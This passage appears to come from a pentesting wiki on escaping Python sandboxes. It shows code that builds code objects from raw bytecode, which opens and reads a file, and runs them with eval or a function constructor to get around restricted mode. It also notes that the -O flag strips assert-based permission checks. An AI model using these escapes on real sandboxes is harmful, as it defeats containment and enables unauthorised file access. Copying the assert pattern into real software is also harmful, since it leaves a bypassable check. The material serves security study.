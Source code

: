 ```python
#On Remote
function_type = type(lambda: None)
code_type = type((lambda: None).__code__) #Get <type 'type'>
consts = (None, "./poc.py", 'r')
bytecode = 't\x00\x00d\x01\x00d\x02\x00\x83\x02\x00j\x01\x00\x83\x00\x00S'
names = ('open','read')

# And execute it using eval/exec
eval(code_type(0, 0, 3, 64, bytecode, consts, names, (), 'noname', '<module>', 1, '', (), ()))

#You could also execute it directly
mydict = {}
mydict['__builtins__'] = __builtins__
codeobj = code_type(0, 0, 3, 64, bytecode, consts, names, (), 'noname', '<module>', 1, '', (), ())
function_type(codeobj, mydict, None, None, None)()
```

If you cannot access `eval` or `exec` you could create a **proper function**, but calling it directly is usually going to fail with: _constructor not accessible in restricted mode_. So you need a **function not in the restricted environment call this function.**

```python
#Compile a regular print
ftype = type(lambda: None)
ctype = type((lambda: None).func_code)
f = ftype(ctype(1, 1, 1, 67, '|\x00\x00GHd\x00\x00S', (None,), (), ('s',), 'stdin', 'f', 1, ''), {})
f(42)
```

## Decompiling Compiled Python

Using tools like [**https://www.decompiler.com/**](https://www.decompiler.com) **** one can **decompile** given compiled python code.

**Check out this tutorial**:

{% content-ref url="../../../forensics/basic-forensic-methodology/specific-software-file-type-tricks/.pyc.md" %}
[.pyc.md](../../../forensics/basic-forensic-methodology/specific-software-file-type-tricks/.pyc.md)
{% endcontent-ref %}

## Misc Python

### Assert

Python executed with optimizations with the param `-O` will remove asset statements and any code conditional on the value of **debug**.\
Therefore, checks like

```python
def check_permission(super_user):
    try:
        assert(super_user)
        print("\nYou are a super user\n")
    except AssertionError:
        print(f"\nNot a Super User!!!\n")
```
